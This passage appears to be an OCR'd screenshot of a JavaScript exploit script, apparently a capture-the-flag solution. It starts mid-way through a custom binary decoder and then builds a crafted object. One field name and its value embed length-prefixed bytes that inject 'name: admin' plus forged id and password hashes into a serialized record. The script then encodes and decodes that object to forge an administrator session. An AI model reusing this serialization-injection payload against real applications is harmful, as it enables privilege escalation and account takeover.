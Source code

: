```javascript
        switch(t) {
        case 1:
            n = b.readUInt32LE(i), i += 4
            v = b.toString('utf8', i, i+n), i += n
            o[k] = v
            break
        case 2:
            n = b.readUInt32LE(i), i += 4
            o[k] = n
            break
        default:
            break
        }
    }
    return o
}

// encode non printable
var encodeNP = function(s){
    var hex, c;
    var result = '';
    for (var i = 0; i < s.length; i++) {
        c = s[i];
        if (c >= 32 && c <= 126) {
            result += String.fromCharCode(c);
        } else {
            hex = c.toString(16);
            result += '\\u' + ('000'+hex).slice(-4);
        }
    }

    return result;
}

const payload = {
    'name': 'nytr0gen31337',
    'age': 20,
    'desc': 13,
    "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
        "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
        "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
        "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
    'password': '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',
    'id': 'deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
};
console.log(payload);
const plm = encode(payload);
console.log(plm);
console.log(encodeNP(new Buffer(plm, 'base64')));
console.log(decode(plm));
```
